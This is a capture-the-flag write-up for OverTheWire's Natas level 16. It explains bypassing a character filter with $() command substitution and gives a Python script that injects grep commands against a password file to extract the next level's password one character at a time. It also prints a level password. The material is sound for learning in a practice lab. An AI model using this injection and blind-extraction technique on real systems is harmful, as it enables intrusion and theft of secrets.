

# Natas Level 15 → Level 16

> URL : http://natas16.natas.labs.overthewire.org/

- In this level we have a search box.
- let's try searching `a`, okay we get a list of words containing a
- let's try something random like `asdf`, this time we don't get back anything
	- so if the entered letter **does not exist** in the file it returns nothing
- let's read the source code
- okay so   **/[;|&\`\'"]/** are not allowed
- now we can use `$()` to execute bash commands
	- eg: `$(cat /etc/natas_webpass/natas16)`
- now we have to brute force the password
- We can do this with python 

```python
import requests
from requests.auth import HTTPBasicAuth

# used to login to the current level  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  

# stores the password as we find out using the loop
passwd = ''  

allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
  
for i in range(32):  
 for char in allchars:
  r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=African$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  # checks wether the text returned after the above request consists of the word "African"
  if 'African' not in r.text:  
   passwd = passwd + char  
   print(passwd)  
   break  
```
- and we get the password for the next level!!


> **NOTE :** this script takes a while to run, not the fastest.